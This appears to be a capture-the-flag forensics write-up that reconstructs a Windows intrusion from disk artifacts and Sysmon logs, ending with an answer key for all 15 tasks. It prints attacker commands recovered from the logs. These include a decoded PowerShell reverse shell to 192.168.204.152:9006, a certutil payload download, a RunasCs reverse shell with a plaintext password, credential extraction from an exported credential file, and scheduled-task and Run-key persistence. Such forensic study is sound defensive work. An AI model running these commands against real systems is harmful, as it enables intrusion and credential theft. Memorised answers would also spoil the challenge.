# ShadowBait
---
**Challenge scenario: Steven, a junior consultant at a mid-sized firm recently downloaded a document from an external source, leading to a potential security incident. An attacker may have gained unauthorized access to a Windows machine, leaving behind traces of their activities. Your task is to examine the available disk artifacts to identify any suspicious behavior and help secure the system.**

## Artifacts
The provided artifacts was a copy of C drive of a compromised system. 



There are also `ConsoleLog.txt`, `CopyLog.csv`, `SkipLog.csv`. Checking `ConsoleLog.txt` revealed that the system used `KAPE` for data collection, and `Sysmon` was also utilizes in writing log files.



## Task 1
**What is the name of the malicious document used in phishing, which facilitated initial access for the attacker?**

Here I parsed the `$MFT` and `$J` artifacts using `MFTECmd.exe` as always, and filter it in `Timeline Explorer`.

Command line used: `./MFTECmd.exe -f '.\$Extend\$J' -m '.\$MFT' --csv '.\output' --csvf usn_with_paths.csv`



Knowing that Steven has downloaded a malicious document, so this document is the first stage of the attack chain. I filter for files with extension contains 'doc' and there was only `Policy.docm`, it is also located in Downloads folder of user `Steven`, which satisfies all conditions.



```
Answer: Policy.docm
```

## Task 2
**What was the full link from which the malicious document was downloaded?**

The downloaded link can be found in HISTORY database located in `C\Users\steven\AppData\Local\Google\Chrome\User Data\Default` if Steven used Google Chrome to download, or `C\Users\steven\AppData\Local\Microsoft\Edge\User Data\Default` if Steven used Microsoft Edge to download. So I checked both of them, especially in `downloads` table.





Steven used Google Chrome to download this document, and its downloaded link was also found here.

```
Answer: https://drive.usercontent.google.com/uc?id=1Y6XAccvtdWvXUGx8WU0qG-7EP781c0uD&export=download
```

## Task 3
**The document downloaded a script, which acted as a stager and downloaded another payload, providing the attacker with hands-on remote access. When was this script downloaded?**

In `usn_with_paths.csv` that I parsed earlier, I filer for files having extension of `txt`, `ps1`, `bat` since those are most common suspicious script, paid my attention after when `Policy.docm` was executed.



Found out this one look very suspicious. Knowing `Sysmon` was running in background, I parsed the `Microsoft-Windows-Sysmon%4Operational.evtx` log using `EvtxECmd.exe` and filter it in Timeline Explorer.

Command line used: `./EvtxECmd.exe -f 'Microsoft-Windows-Sysmon%4Operational.evtx' --csv './output' --csvf 'sysmon.csv'`



Looking complicated isn't it, but its chain is totally simple. `Policy.docm` ran, called to `cmd.exe`, cmd ran `whoami /priv` and download `downloader.ps1` using IWR (Invoke Web Request).

So `downloader.ps1` is the payload mentioned in the question, now I just need to find where it was downloaded. From `sysmon` log, I thought that the timestamp needed is when `powershell` executed the download command, but it was a wrong answer. 

So I went back to `usn_with_paths.csv` file to find its exact time.



```
Answer: 2025-06-07 05:42:11
```

## Task 4
**What is the full path of the final payload which provided remote access to the attacker?**

Payload providing remote access to the attacker must be some kind of an executable, with the extention of `.exe` or `.dll`.
So I filtered for those two in `usn_with_paths.csv`.



Is that this `opendll.exe` one? To confirm it has outer connection, I dived deeper into it in `Sysmon` log. When an executable make outer connection, `Sysmon` will store this as Event ID 3.



Sysmon confirmed that this `opendll.exe` trully make connection to 192.168.204.152:8899.

```
Answwer: C:\Users\steven\AppData\Roaming\opendll.exe
```

## Task 5
**Which port was used for C2 communication by the payload?**

As explained in task 4, the C2 server was 192.168.204.152:8899.

```
Answer: 8899 
```

## Task 6
**The threat actor utilized a file created and used by Steven even before the attack. This file allowed the attacker to authenticate as user "Samy", abusing DPAPI to grab credentials of another user on the same machine. What is the full path of this file?**

The question hinted that `file created and used by Steven even before the attack` so I need to know what Steven did to create this file, or even put any credentials in it. If Steven used Powershell commands for creation, his commands will be stored in `C\Users\steven\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`.

So I checked this file.



These commands satisfy all conditions in task's question.

```
$username = "samy"
$password = Read-Host -Prompt "Enter password for $username" -AsSecureString
$credential = New-Object System.Management.Automation.PSCredential($username, $password)
$credential | Export-Clixml -Path "$env:USERPROFILE\Documents\connection.xml"
```

This creates another user `samy`, password is entered manually, and this credential will be save to `$env:USERPROFILE\Documents\connection.xml`, particularly in this case is `C:\Users\Samy\Documents\connection.xml`.

```
cd .\Documents\
$cred = Import-Clixml -Path .\connection.xml
$password = $cred.GetNetworkCredential().Password
echo $password
```

`$cred` will now store content in `connection.xml`, which is credential of user `samy`, and print password to console.

```
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA
```

Query the registry to check the UAC status.

But I was wondering what was the password of this user. Luckily, Windows saved this commands and its response in `Microsoft-Windows-PowerShell%4Operational.evtx`. Again I parsed this file using `EvtcECmd.exe`, the same way I did with `sysmon` log.

Filter for `echo $password` to check for its Event Record ID, which is 106. So its response should be in Record 107 or 108 or something like that.





And here it is, right in Record 107, password of `samy` user was `Winter2025!`

```
Answer: C:\Users\Samy\Documents\connection.xml
```

## Task 7
**What is the full command used to grab credentials from the "Samy" account?**

Credentials of `samy` account is stored in `connection.xml` file, and this command line was used to grab credentials

```
$cred = Import-Clixml -Path .\connection.xml
```

## Task 8
**The attacker downloaded a tool from their internal staging server to laterally move and gain remote access as "Samy" user account. What is the full command used to download the tool?**

The task asked for the full command used for download, which will be stored in `Sysmon` log of Event ID 1. Furthurmore, the attacker gained access to `samy` user through this tool, meaning its credentials should be used here. 

So I filter for the password `Winter2025!` in `Microsoft-Windows-PowerShell%4Operational.evtx` logs.



And I found this command line: `.\\RunasCs.exe samy Winter2025! cmd -r 192.168.204.152:555 --bypass-uac --logon-type 8`.

The attacker used `RunasCe.exe` to run a reverse shell under user `samy` using its credentials, establishing a reverse shell connection to 192.168.204.152:555, and `--bypass-uac` was used to request `RunasCs` bypass UAC (User Account Control).

So I knew that the tool mentioned in the question is `RunasCe.exe`. Finding its full command used for download should be easy now, since the full command line is stored in `Sysmon` log.



The attacker used `certutil` to download this tool from his server.

```
Answer: "C:\\Windows\\system32\\certutil.exe\" -urlcache -f http://192.168.204.152/RunasCs.exe RunasCs.exe
```

## Task 9
**What is the password for the user account "Samy", used by the attacker to gain a remote shell?**

As explained in Task 7, the password was

```
Answer: Winter2025!
```

## Task 10
**After gaining access as Samy, the attacker downloaded a script to check privileges for the account. What is the name of the script?**

Knowing that `RunasCs.exe` was downloaded at `05:48:56`, similar to Task 3, I filter for scripts with the extension of `.ps1`, `.txt1, `.bat` in sysmon log to search for malicious files what were downloaded after that timestamp.



This one look promising.

`Microsoft-Windows-PowerShell%4Operational.evtx` also confirmed that this `.ps1` file was run.



```
Answer: psgetsys.ps1
```

## Task 11
**The attacker exploited a Windows process to gain an elevated remote shell. What is the PID of this process?**

In `sysmon` log, right after when `psgetsys.ps1` was executed (2025-06-07 05:51:55), a very suspicious Powershell command was executed by `winlogon.exe`



Decode it revealed the actual command:



```
$client = New-Object System.Net.Sockets.TCPClient("192.168.204.152",9006);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

This creates a reverse shell to C2 server 192.168.204.152 at port 9006, retrieve commands, execute those on cmd, and send the result back to server, a complete Command and Control.

This concluded that `winlogon.exe` was the legtimate to which was being abused for elevated remote shell. And its PID is 632 as shown in `sysmon`.

```
Answer: 632
```

## Task 12

**Which port was used for remote access with escalated privileges?**

As explained in Task 11.

```
Answer: 9006
```

## Task 13
**The attacker enabled persistence mechanisms for a backdoor executable. What is the full path of the file?**

This must be the consequence of that Powershell encoded command. Filter for that command in Sysmon, and I knew that the attacker has firstly ran `whoami` command. Then he downloaded this executable in `C:\Windows\System32`.



Then



This command was executed: `"C:\\Windows\\system32\\schtasks.exe\" /create /tn CheckSystem /tr C:\\Windows\\system32\\document.pdf.exe /sc onstart /ru SYSTEM` to create a **Scheduled Task persistence** for the sake backdoor auto start, which is `C:\Windows\system32\document.pdf.exe` under `SYSTEM` priviledge.



Another command line was ran, which is `"C:\\Windows\\system32\\reg.exe\" add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v WMISVC /t REG_SZ /d C:\\Windows\\system32\\document.pdf.exe /f`, to create a persistence by Registry Run key. This runs a Windows built-in tool named `reg.exe` to edit the registry value in `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

This two commands are enough to conclude the answer for this task.

```
Answer: C:\Windows\system32\document.pdf.exe
```

## Task 14
**The attacker also abused Windows shortcuts and placed a rogue shortcut file pointing to the malicious backdoor. What is the shortcut file name?**

The attacker continue to downloaded a malicious `.vbs` and executed it by `cscript.exe`



When any file was created on system, sysmon will save this event as Event ID 11. So I filtered for Event ID 11 and `cscript.exe` to see what actually happens when `wscript.vbs` was run, and there is only one entry.



With the extension of `.lnk` confirmed that this is the Windows shortcut pointing to backdoor `document.pdf.exe`.

```
Answer: NetworkDiagnostics.lnk
```

## Task 15
**What is the full path of the script that created the shortcut persistence?**

The script that created the shortcut persistence, `NetworkDiagnostics.lnk`, was wscript.exe, and its full path was also found in sysmon when the attacker download this file.



```
Answer: C:\programdata\wscript.vbs
```

## Sherlock solved


## Attack chain
1. User `Steven` downloaded `Policy.docm` from a Google Drive link.
2. The document downloaded a `downloader.ps1` script as second stage.
3. The script downloaded the final payload, `opendll.exe` providing hands-on remote access.
4. `opendll.exe` connected to C2 server at 192.168.204.152:8899, abuse a credential file `connection.xm`l which was created for user `samy`.
5. Attacker downloaded `RunasCs` by `certutil` with provided credentials for lateral movement, and run this tool for reverse shell at 192.168.204.152:555
6. Attacker continue to download a script `psgetsys.ps1`, priviledge escalation by abusing Windows process `winlogon.exe`.
7. Elevated reverse shell back to port 9006, downloaded a backdoor persistence executable `document.pdf.exe`.
8. Create scheduled task and add Registry Run key.
9. Downloaded a Windows shortcut `NetworkDiagnostics.lnk` by executing `wscript.vbs` which was downloaded from C2 server.

## Tasks and Answers

| Task | Question | Answer |
|---:|---|---|
| 1 | What is the name of the malicious document used in phishing, which facilitated initial access for the attacker? | `Policy.docm` |
| 2 | What was the full link from which the malicious document was downloaded? | `https://drive.usercontent.google.com/uc?id=1Y6XAccvtdWvXUGx8WU0qG-7EP781c0uD&export=download` |
| 3 | The document downloaded a script, which acted as a stager and downloaded another payload, providing the attacker with hands-on remote access. When was this script downloaded? | `2025-06-07 05:42:11` |
| 4 | What is the full path of the final payload which provided remote access to the attacker? | `C:\users\Steven\AppData\Roaming\OpenDLL.exe` |
| 5 | Which port was used for C2 communication by the payload? | `8899` |
| 6 | The threat actor utilized a file created and used by Steven even before the attack. This file allowed the attacker to authenticate as user "Samy", abusing DPAPI to grab credentials of another user on the same machine. What is the full path of this file? | `C:\Users\Samy\Documents\connection.xml` |
| 7 | What is the full command used to grab credentials from the "Samy" account? | `$cred = Import-CliXml -Path connection.xml` |
| 8 | The attacker downloaded a tool from their internal staging server to laterally move and gain remote access as "Samy" user account. What is the full command used to download the tool? | `"C:\Windows\system32\certutil.exe" -urlcache -f http://192.168.204.152/RunasCs.exe RunasCs.exe` |
| 9 | What is the password for the user account "Samy", used by the attacker to gain a remote shell? | `Winter2025!` |
| 10 | After gaining access as Samy, the attacker downloaded a script to check privileges for the account. What is the name of the script? | `psgetsys.ps1` |
| 11 | The attacker exploited a Windows process to gain an elevated remote shell. What is the PID of this process? | `632` |
| 12 | Which port was used for remote access with escalated privileges? | `9006` |
| 13 | The attacker enabled persistence mechanisms for a backdoor executable. What is the full path of the file? | `C:\Windows\system32\document.pdf.exe` |
| 14 | The attacker also abused Windows shortcuts and placed a rogue shortcut file pointing to the malicious backdoor. What is the shortcut file name? | `NetworkDiagnostics.lnk` |
| 15 | What is the full path of the script that created the shortcut persistence? | `C:\programdata\wscript.vbs` |


